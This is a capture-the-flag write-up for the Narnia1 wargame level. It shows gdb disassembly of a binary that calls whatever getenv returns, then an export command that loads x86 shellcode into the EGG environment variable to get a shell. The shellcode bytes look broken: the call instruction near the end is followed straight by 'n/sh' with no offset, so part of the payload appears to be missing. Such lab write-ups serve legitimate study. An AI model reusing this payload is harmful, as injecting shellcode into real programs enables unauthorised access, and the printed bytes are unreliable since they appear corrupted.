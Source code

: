 ```yaml
---
title: "Narnia1 Write-up"
layout: post
category: Write-ups
author: A1phaZer0
---
```

1.Get disassembled code.  
```bash
gdb-peda$ disas main
Dump of assembler code for function main:
   [...]
   0x08048486 <+9>:	 mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   [...]
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   [...]
End of assembler dump.
```
<!--more-->
`<getenv@plt>` returns a pointer to the `value` part of the whole `var=value` environment string, so `call eax` will jump to where `value` starts and run.  
All one need to do is put payload into that environment variable.   
2.Put payload into `EGG`
```bash
$ export EGG=$( perl -e 'print "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"' )
```
Run ./narnia1, you'll get a shell.
